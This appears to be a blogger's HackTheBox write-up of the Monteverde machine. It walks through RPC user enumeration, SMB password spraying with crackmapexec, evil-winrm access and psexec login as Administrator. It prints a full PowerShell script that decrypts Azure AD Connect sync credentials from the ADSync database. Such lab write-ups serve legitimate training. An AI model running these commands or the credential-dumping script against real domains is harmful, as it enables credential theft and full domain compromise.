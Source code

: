 ```yaml
---
layout: single
title: "HTB - Monteverde Writeup - 10.10.10.172"
date: 2020-06-18 16:49:23 +0100
categories: hackthebox
excerpt: My walkthrough / writeup of the HTB AD machine Monteverde.
---
```


![HTB](/images/hackthebox-writeups/monteverde/2020-06-19_14-43.png)

# HackTheBox - Monteverde - 10.10.10.100

Monteverde is a 30 point medium rated machine on hackthebox, that involves using rpcclient with null authentication to pillage domain usernames, then using hydra to use those usernames and usernames as passwords to find valid credentials. Once found we find the password for user `mhope` in a SMB share and we use his credentials to get a shell on the box. Once we are `mhope` we find he is a memeber of the Azure AD Admins groups so we can use a powershell script to decrypt the admin's credentials from the SQL database used by Azure AD Sync.

## 1. Recon

To start this box off we will do an nmap scan of the target machine, 10.10.10.172 `nmap -sC -sV -oA nmap/monteverde 10.10.10.172`

### Nmap Scan Results

{% highlight bash linenos %}
Nmap scan report for 10.10.10.172
Host is up (0.061s latency).
Not shown: 989 filtered ports
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|\_ bind
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-01-24 18:36:21Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/24%Time=5E2B36F6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020-01-24T18:38:12
|\_ start_date: N/A
{% endhighlight %}

Some ports of note here are:

1. RPC - Maybe we can get null authentication
2. SMB - Maybe some useful files
3. LDAP - ldapquery?

### RPC Enumeration

Firstly we will try to get a connection to rpc with null authentication, using rpcclient:
`rpcclient -U "" 10.10.10.172` `enumdomusers`
![rpc](/images/hackthebox-writeups/monteverde/2020-06-19_14-34.png)

Bingo, now we have a list of users!

## 2. Finding some credentials

Now we have a list of usernames we can try to bruteforce login credentials, using those usernames as passwords, first save the usernames to a file like this:
![usersfile](/images/hackthebox-writeups/monteverde/2020-06-19_14-37.png)

We can then use crackmapexec to bruteforce smb logins, if you want to read more about cme then the link to the github page is [here](https://github.com/byt3bl33d3r/CrackMapExec).

If we pass the arguments -u for users file and -p for password file, we can bruteforce logins:

`crackmapexec smb 10.10.10.172 -u usersfile.txt -p passfile.txt`
![cme](/images/hackthebox-writeups/monteverde/2020-06-19_14-49.png)
Nice, we got a valid login using the credentials, `SABatchJobs:SABatchJobs`, we can now try to enumerate the smb shares.

## 3. Getting More Credentials

### SMB Enumeration

To list all the smb shares we will use smbclient, which is built into Kali.

`smbclient -U "SABatchJobs" -L \\10.10.10.172`
![shares](/images/hackthebox-writeups/monteverde/2020-06-19_14-53.png)

The one share that stands out is the users$, as it is not a default Windows share like SYSVOL or IPC$

Let's try and connect using our credentials
`smbclient -U "SABatchJobs" \\\\10.10.10.172\\users$`
![smb-share](/images/hackthebox-writeups/monteverde/2020-06-19_15-01.png)

Nice, we can see the files in the users$ share, lets download all the files and see if there is anything interesting
`prompt OFF`, `recurse ON`, `mget *`
![files](/images/hackthebox-writeups/monteverde/2020-06-19_15-04.png)

The only file in the share was an `azure.xml` file, let;s see what's inside
`cat azure.xml`
![epic](/images/hackthebox-writeups/monteverde/2020-06-19_15-06.png)

Bingo! We have the password for the user `mhope`.

### Getting User

Now that we have the password for the user `mhope` we can try to login over winrm, for this I will be using a tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

`evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$`

![htb](/images/hackthebox-writeups/monteverde/user.gif)

## 4. Privesc to Domain Admin

Now that we have a shell we can do some enumeration, firstly, `whoami /all`
![whoami](/images/hackthebox-writeups/monteverde/2020-06-19_15-24.png)

We can see we are a part of the azure admins, this means that with the right commands or script we can dump the admin password from the mssql database that Azure AD Connect uses, there is a great article by XPNSec that explains this [here](https://blog.xpnsec.com/azuread-connect-for-redteam/). So if we use the powershell script from the blog but with the connection string changed to work with this DB we should be good. Allternativly I will use a tool made by [fox-it on github](https://github.com/fox-it/adconnectdump), to decrypt the password as I could not get the powershell script to work for me.

Here is the script the exe is based on:

{% highlight powershell linenos %}
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$\_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
{% endhighlight %}

Now if we save the exe and dll from the fox-it github to our local machine, we can upload it using evil-winrm to the box

![upload](/images/hackthebox-writeups/monteverde/2020-06-19_15-46.png)

Now if we naviagate to: `C:\Program Files\Microsoft Azure AD Sync\Bin` and run `\Users\mhope\Documents\AdDecrypt.exe -FullSQL` we get the admin credentials

![creds](/images/hackthebox-writeups/monteverde/2020-06-19_15-51.png)

Now we can just use these creds to psexec into the box and grab the root flag

## Pwned

`psexec.py megabank/Administrator:"d0m@in4dminyeah!"@10.10.10.172`

![root](/images/hackthebox-writeups/monteverde/root.gif)

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)
